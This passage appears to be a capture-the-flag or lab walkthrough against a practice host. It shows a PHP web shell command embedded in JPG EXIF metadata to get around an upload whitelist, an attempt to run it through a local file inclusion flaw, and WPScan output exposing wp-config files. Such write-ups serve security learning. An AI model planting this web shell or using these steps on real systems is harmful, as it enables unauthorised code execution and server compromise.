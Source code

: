 Investigating ```upload.html``` reveals this webpage.

![image](https://user-images.githubusercontent.com/45502375/197641774-6904b6f8-b63d-4cbb-aad6-7b1706cfb3fe.png)

Trying various file upload vulnerabilities to try and upload a PHP reverse shell script, it reveals to whitelist only JPG files, so I try a JPG file with a PHP command Exiftool'd into it.

```
$ exiftool ReverseShells/ipcat.php.jpg
ExifTool Version Number         : 12.44
File Name                       : ipcat.php.jpg
...
Notes                           : <?php system($_GET["cmd"]); ?>
Comment                         : <?php system($_GET["cmd"]); ?>
```

![image](https://user-images.githubusercontent.com/45502375/197642173-fc58c976-dfd2-45c7-a11b-44a42ee98ef3.png)

Having done that, I tried accessing the file via the LFI vulnerability I found earlier, but this ended up not working.

I moved on to directory enumeration on port 8000. This server had Wordpress files that could be downloaded, so I ran WPScan on it.

Since the Wordpress directory was ```http://[IP]/blog/```, I ran various enumerations on there.

```
$ sudo wpscan --url http://192.168.159.184:8000/blog/ --random-user-agent --force -e
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://192.168.159.184:8000/blog/ [192.168.159.184]
[+] Started: Mon Oct 24 16:49:52 2022
...
...
...
[i] Config Backup(s) Identified:

[!] http://192.168.159.184:8000/blog/wp-config-sample.php
 | Found By: Direct Access (Aggressive Detection)

[!] http://192.168.159.184:8000/blog/wp-config.php
 | Found By: Direct Access (Aggressive Detection)
...
```
